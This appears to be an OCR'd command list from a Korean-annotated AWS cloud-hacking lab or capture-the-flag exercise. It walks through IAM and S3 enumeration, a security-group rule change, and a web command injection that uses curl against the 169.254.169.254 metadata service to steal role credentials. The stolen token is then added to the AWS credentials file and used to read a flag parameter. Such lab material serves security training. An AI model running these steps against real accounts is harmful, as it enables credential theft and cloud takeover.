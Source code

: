 
`cat start.txt`
`aws configure --profile [시작사용자]`

`aws --profile [사용자] sts get-caller-identity`

`aws --profile [사용자] iam list-user-policies --user-name [user_name]`

`aws --profile [사용자] iam get-user-policy --user-name [user_name] --policy-name [정책이름]`

`aws --profile [사용자] iam list-attached-user-policies --user-name [user_name]`

`aws ec2 describe-instances --profile [시작사용자]`

`http://ec2주소`

`aws ec2 descrbe-security-groups --profile [시작사용자]`

`aws s3 ls --profile [시작사용자]`

`aws s3 ls s3://[버킷이름]/ --profile [시작사용자]`
`aws s3 cp s3://[버킷이름]/[텍스트파일].txt --profile [시작사용자]`
`cat [텍스트파일].txt`

`aws configure --profile [ec2 방화벽 관리자]`

`aws --profile [사용자] iam list-user-policies --user-name [ec2 방화벽 관리자]`

`aws --profile [ec2 방화벽 관리자] iam get-user-policy --user-name [user_name] --policy-name [정책이름]`

`aws ec2 revoke-security-group-ingress --group-id <security group id> --protocol <tcp/udp> --port <port number> --cidr <cidr>`
`aws ec2 authorize-security-group-ingress --group-id <security group id> --protocol <tcp/udp> --port <port number> --cidr <cidr>`

`aws ec2 reboot-instances --instance-ids [인스턴스 id] --profile [ec2 방화벽 관리자]`

`aws ec2 describe-instances --profile [시작사용자]`

`http://ec2주소`

`http://ec2주소?cmd = curl http://169.254.169.254/latest/meta-data/iam/security-credentials/aws_ssm_role`

`aws configure --profile [ssmrole_사용자]`
`echo "aws_session_token = {얻은 토큰}" >> ~/.aws/credentials`

`aws --profile [ssmrole_사용자] sts get-caller-identity`

`aws iam list-attached-role-policies --role-name [role_name] --profile [시작사용자]`

`aws --profile [ssmrole_사용자] ssm get-parameter --name flag`
